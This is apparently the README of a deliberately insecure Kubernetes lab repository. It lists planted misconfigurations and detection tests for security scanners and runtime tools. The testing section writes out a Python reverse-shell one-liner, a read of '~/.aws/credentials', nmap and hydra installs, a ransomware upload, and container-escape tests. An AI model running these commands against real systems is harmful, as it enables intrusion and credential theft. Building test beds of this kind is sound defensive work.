 <p align="center"><img src="https://raw.githubusercontent.com/latiotech/LAST/main/logo.png" width="150" ><br><h1 align="center">Insecure Kubernetes App</h1>
</p>

![GitHub stars](https://img.shields.io/github/stars/latiotech/insecure-kubernetes-deployments?style=social)
![GitHub release (latest by date)](https://img.shields.io/github/v/release/latiotech/insecure-kubernetes-deployments)
![GitHub issues](https://img.shields.io/github/issues/latiotech/insecure-kubernetes-deployments)
![GitHub pull requests](https://img.shields.io/github/issues-pr/latiotech/insecure-kubernetes-deployments)
![GitHub](https://img.shields.io/github/license/latiotech/insecure-kubernetes-deployments)
[![Discord](https://img.shields.io/discord/1119809850239614978)](https://discord.gg/k5aBQ55j5M)
![Docker Pulls](https://img.shields.io/docker/pulls/confusedcrib/insecure-app)

Test every type of configuration scanner against a single repo that's comically insecure with documented issues

[About Latio](https://latio.tech)  

# Insecure Kubernetes Deployments

A repo meant for providing tools for security testing that is comically insecure. Another great tool is [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat), but I wanted more of a playground and less complexity.

## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## Deployment:

1. Make sure you have Terraform, Helm, AWS CLI, eksctl and a valid AWS user configured

2. `cd terraform`

3. `terraform init` `terraform plan` `terraform apply` This creates two EKS node groups, one publicly accessible over SSH and another private. These will run small instances, be sure to `terraform destroy` when you're done for minimal fees. This takes about 15 minutes.

4. 
```
aws eks --region $(terraform output -raw region) update-kubeconfig \
    --name $(terraform output -raw cluster_name)
```

5. Grant your user access to the kubernetes cluster you created - through the Console it's adding the AmazonEKSAdminPolicy and AmazonEKSClusterAdminPolicy to your user. This could be automated with terraform to create a user and a role and output them, but it would require adding additional AWS profiles which I thought might be more confusing unless someone has a better solution.

6. `cd ../insecure-chart/`

7. helm install insecure-app . --create-namespace --namespace=insecure-app

8. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n workload-security-evaluator`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

9. `terraform destroy` when you're done!

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`
<<<<<<< HEAD
=======

Readme change
>>>>>>> b8e1c4d61873ed7566d33dcd8bd4b76bcf86e450

